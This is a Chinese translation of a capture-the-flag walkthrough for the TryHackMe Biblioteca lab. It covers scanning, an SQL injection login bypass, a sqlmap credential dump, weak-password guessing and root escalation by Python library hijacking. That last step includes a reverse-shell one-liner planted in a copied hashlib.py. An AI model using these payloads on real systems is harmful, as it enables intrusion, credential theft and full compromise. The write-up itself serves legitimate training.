# TryHackMe: Biblioteca

> 原文：<https://infosecwriteups.com/tryhackme-biblioteca-c56be949564c?source=collection_archive---------0----------------------->

## 走查

# 介绍

嘿伙计们！这一次，让我们来根 **TryHackMe** 中被评为**中等**(难度)的 **Biblioteca** 房间。我们加油吧！



# 首字母

```
export IP=<your_IP>
```

## 列举

让我们从端口扫描开始:

```
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

通过 rustscan 我们了解到有两个开放的端口，即 22 ( **ssh** )和 8000 ( **http** )。

让我们深入这些港口。

```
nmap -sC -sV -p22,8000 -Pn -oN nmap $IP
```



nmap 扫描结果

我检查了端口 8000，因为我没有任何 ssh 凭证:)

## 端口 8000:

在访问 http 站点时，有一个登录页面


登录页面

我创建了一个帐户并登录


什么都没有，很可疑。

我运行了 **gobuster** 扫描，但没有得到任何其他页面。

然后我试了一下 **SQLi** ，你猜怎么着？成功了



我在**密码栏**即`'or 1=1 -- —`中尝试了简单的有效载荷，我们登录了其他一些名为**斯莫奇**的用户账户！



smokey 帐户已登录

# 利用:

我迅速启动了**打嗝套件** →捕获请求→保存请求



打嗝图像

## sqlmap

```
sqlmap -r sql.req --dbs --dump
```

并且得到了**用户名**、**邮箱**、&、**密码**



sqlmap 结果

**SSH** 用凭证获取用户标志



但是等等，我们没有权限读取 **user.txt** 文件，因为所有者是另一个名为`hazel`的用户

在妥协后侦查了一段时间后，我什么也没发现。

后来我查了一下 TryHackMe 官方不和谐频道的一些讨论室，才知道对方用户`hazel's`的密码是**非常弱**。

起初，我用来自 **Seclists** →的 100 个常用密码运行 hydra

然后，我沮丧地输入了用户名密码，它的工作。即密码是用户名( **hazel:hazel** )

现在我拿到了 **user.txt**



# 特权:

如果你有用户的密码，首先运行的是`sudo -l` :D



看到了 **SETENV** ，这意味着我们可以在以 root 用户身份运行上述命令时设置环境变量！

查看 **hasher.py** 文件



经过一些研究/谷歌搜索，我看到了两篇非常有帮助的博客/文章(链接在最后)。

有某种类型的 **python 库劫持。**总之，要劫持，遵循以下步骤:

1.  获取 python 库(正在使用)的位置，在我们的例子中是它的 */usr/lib/python3.8/*
2.  将 **hashlib.py** 文件复制到 */tmp*

```
*cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py*
```

3.将**反向外壳**添加到 hashlib.py 文件中(任何你想要的地方)

使用反向外壳:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

4.启动监听器

```
*nc -lnvp 1234*
```

5.要获得**外壳**，运行以下命令

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

> PYTHONPATH 环境变量指示一个(或多个)目录，Python 可以在其中搜索要导入的模块。

我得到了贝壳。**稳定**外壳，获得 **root.txt** 文件



根

就这样，我们完成了这个房间。

感谢你阅读这篇博客。博客见，到时见 **Happy Hacking o7**

|| [房间](https://tryhackme.com/room/biblioteca) | [推特](https://twitter.com/namx05) | [博客 1](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/) | [博客 2](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) ||